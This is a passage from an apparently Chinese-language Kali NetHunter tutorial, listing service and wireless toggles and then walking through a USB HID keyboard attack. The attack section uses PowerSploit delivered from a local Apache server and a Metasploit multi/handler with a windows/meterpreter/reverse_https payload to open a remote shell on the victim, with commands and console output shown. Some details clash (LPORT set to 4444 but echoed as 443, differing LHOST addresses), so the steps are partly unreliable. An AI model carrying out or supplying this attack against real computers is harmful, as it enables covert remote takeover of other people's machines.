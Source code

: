 **Service**

*   SSH服务开关
*   VNC服务开关
*   OpenVPN服务开关
*   在本地启动Xserver

**Monitor Mode**

启动或关闭wlan1(外置无线网卡)的混杂监听模式

**Eject USB Wifi**

弹出USB无线网卡

0x06 HID KeyBoard Attack
========================

* * *

在过去,USB自启往往依赖插入的USB设备中的autorun.inf实现.时下这招往往不灵,而新兴的USB HID Attack则成为新的安全威胁.USB HID可通过模拟键盘或鼠标操作,实时执行目标代码,在此以PowerSploit结合MSF为例:

首先运行提供payload的webserver,在Kali Service Control中开启Apache服务器

![img](http://drops.javaweb.org/uploads/images/4b3b17bd3d7ec049a8f511b372a3e6f126816388.jpg)

转到HID攻击配置页面,选择PowerSploit

![img](http://drops.javaweb.org/uploads/images/7642b82b5990b7adb764ca15f7d61727b05a0ef0.jpg)

IP和端口填写MSF监听的IP端口,Payload我们选择windows/meterpreter/reverse_https,URL为提供Apache服务的IP,这里即本机:192.168.1.151

配置好后UPDATE配置文件,接下来需配置MSF监听反弹shell

```
root@kali:~# msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) >

```

payload同HID配置页面中的payload

```
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https

```

IP和端口同样设置

```
msf exploit(handler) > msf exploit(handler) > set LHOST 192.168.0.17
LHOST => 192.168.0.17
msf exploit(handler) > set LPORT 4444
LPORT => 443
msf exploit(handler) > exploit

[*] Started HTTPS reverse handler on https://0.0.0.0:4444/
[*] Starting the payload handler...

```
